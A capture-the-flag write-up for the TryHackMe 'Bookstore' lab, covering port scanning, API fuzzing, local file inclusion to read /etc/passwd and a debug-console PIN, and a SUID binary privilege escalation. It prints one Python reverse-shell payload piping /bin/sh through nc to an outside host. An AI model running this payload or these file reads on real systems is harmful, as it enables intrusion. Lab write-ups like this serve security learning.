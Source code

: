 ```yaml
---
title: Bookstore TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: Bookstore TryHackMe Writeup
---
```


![logo](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/logo.jpeg)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/1.png)

## Enumeration
We list two web services on port 80 of this website:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/2.png)

In the source code of the file *"login.html"* we list relevant information about a PIN that is stored in a file *.bash_history*

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/8.png)

And at port 5000:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/3.png)

In the nmap capture, it listed the directory *"/api/"*, there we will be able to list several of the site's functionalities.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/4.png)

We test the API and see that it works correctly from Burp.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/5.png)

We use the **Nikto** tool and enumerate the directory *"/console/"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/6.png)

We access to the directory and we see that it asks for a PIN to be able to unlock this functionality.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/7.png)


## Exploitation
Searching on Google about the type of server and its PIN, I found this [documentation](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug)

To get the PIN, we would need to know a couple of parameters, but to get them we must be able to read some system files. 

Here the API will come into play, so we will do a brute force attack to enumerate some parameter that will help us to do LFI (Local File Inclusion).

We launched the **Wfuzz** tool with an average dictionary, in version 2 of the API we did not list anything new, but in version 1 we did.

#### API V2

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/9.png)

#### API V1

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/10.png)

If we access from the browser, we see that we can embed files (LFI).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/11.png)

#### Flag user.txt

We exploit the vulnerability to be able to read the flag *user.txt*

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/12.png)


Recall that they mentioned that the PIN was being stored in the *.bash_history* file. Thanks to the */etc/passwd* file, we know the user names that contain home folder and we can enumerate the file and the access PIN.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/13.png)

We use the PIN and now we have access to the interactive console.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/14.png)

We use the following payload and we will have a reverse shell to the victim machine.

### Code Execute

``` python

__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f').read();

```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/15.png)

### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/16.png)


## Privilege Escalation

We checked the directory of the user *"sid"*, we found a binary that could be the way to escalate privileges, since it runs as the **root** user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/17.png)


We transfer the binary to our kali, check with the **Ghidra** tool and see the conditional where it calls the 3 parameters calculating the xor value. 


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/20.png)


But even if we are missing a parameter, we can obtain it by reversing the xor with the values we have.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/21.png)

With the magic number in our hands, we insert it and we become root and read the flag of *root.txt*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/22.png)
